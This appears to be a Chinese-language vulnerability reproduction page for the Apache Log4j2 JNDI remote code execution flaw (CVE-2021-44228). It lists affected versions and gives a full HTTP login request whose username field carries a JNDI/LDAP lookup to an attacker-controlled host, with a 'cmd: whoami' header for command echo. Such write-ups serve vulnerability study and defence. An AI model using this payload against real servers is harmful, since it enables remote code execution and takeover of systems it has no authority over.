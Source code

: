 ```yaml
---
title: Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228
---
```


# Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

<a-checkbox checked>2.0~2.14.1</a-checkbox></br>

<a-checkbox checked>使用此依赖的JAVA应用</a-checkbox></br>

## 网络测绘

<a-checkbox checked>暂无确切语法</a-checkbox></br>

## 漏洞复现

参数点发送请求

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639112758169-0e01d095-78c9-475c-94bc-9a05ae161b7f.png)

```go
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639112868435-e938cac8-d736-466c-acc0-f94fae3ef688.png)